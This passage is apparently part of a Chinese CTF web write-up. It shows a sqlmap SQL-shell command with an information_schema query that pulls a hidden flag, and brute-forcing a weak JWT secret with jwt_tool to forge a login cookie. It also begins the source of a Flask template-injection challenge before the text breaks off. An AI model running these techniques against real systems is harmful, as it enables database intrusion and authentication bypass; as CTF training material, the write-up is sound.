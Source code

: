 ### 自助查询
- 查询之后发现 flag 不能直接查到，而是藏在注释中。    

Payload：
```bash
sqlmap -u [url] --sql-shell
select * FROM information_schema.columns where table_name = 'flag'
```

### 登录验证
- 根据题目提示，要爆破 JWT 的密钥，并且要伪造 Cookie。
```TEXT
{
  "exp": 1729396405,
  "iat": 1729389205,
  "nbf": 1729389205,
  "role": "user"
}
```
- 使用工具 [jwt_tool](https://github.com/ticarpi/jwt_tool) 来进行弱口令的爆破，得到密钥为 `222333`，伪造 cookie 获得 flag。    

## Week3——Web
### love_flask
- 题目源码
```python
from flask import Flask, request, render_template_string
# Flask 2.0.1
# Werkzeug 2.2.2

app = Flask(__name__)
html_template = '''
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Pretty Input Box</title>
<style>
  .pretty-input {
    width: 100%;
    padding: 10px 20px;
    margin: 20px 0;
    font-size: 16px;
    border: 1px solid #ccc;
    border-radius: 25px;
    box-sizing: border-box;
    box-shadow: 0 2px 4px rgba(0, 0, 0, 0.2);
    transition: border 0.3s ease-in-out;
  }

  .pretty-input:focus {
    border-color: #4CAF50;
    outline: none;
  }

  .submit-button {
    width: 100%;
    padding: 10px 20px;
    margin: 20px 0;
    font-size: 16px;
    color: white;
    background-color: #4CAF50;
    border: none;
```